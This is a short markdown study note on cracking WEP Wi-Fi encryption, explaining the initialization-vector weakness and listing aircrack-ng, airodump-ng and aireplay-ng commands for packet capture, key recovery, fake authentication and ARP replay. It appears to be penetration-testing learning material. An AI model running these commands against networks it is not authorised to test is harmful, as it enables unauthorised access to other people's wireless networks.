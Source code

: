 # WEP Cracking

## Theory:

1. WEP is `symetrical`

2. WEP generates an `unique key` for each packet

3. What key? : `Random 24 bits Initialization Vector + Password`

4. Then we use this key to encrypt packets

5. After encyrpting, `WEP sends 24 bits IV (in plain text) within the packet`

6. SO:

* Once we capture the packet, 
* We have IV and the eventual packet,
* WE can use IV and eventual packet to `get password`

## What to do:

### If there are many ENC = WEP, because for WEP we need stat hacking, which needs a lot data
1. `Capture Packets`: ``airodump-ng wlan0 --bssid xx --channel xx --write write_file` to write received data into "write_file"

2. `Analyze Packets`: `aircrack-ng write_file` to get the pwd

3. You might have pwd like `12:21:33:44:55`, remove `:` to get `1221334455`

### If there are very little data
1. If there are very little data, we cannot find `24 random bits IV`

2. `Fake Auth Attack`. We tell that AP, `dude, I need to communicate with you, send me some packets for response`. Below commands associate our MAC with target MAC

`airodump-ng wlan0 --bssid xxx --channel xxx --write some_file`

`aireplay-ng --fakeauth 0 -a TARGET_MAC -h HOST_MAC wlan0` to ASSOCIATE with the AP, basically to build a connection

3. `ARP Request Replay`: 

`aireplay-ng --arpreplay -b TARGET_MAC -h HOST_MAC wlan0` It is an ARP request attack, you know, to force target to send packets
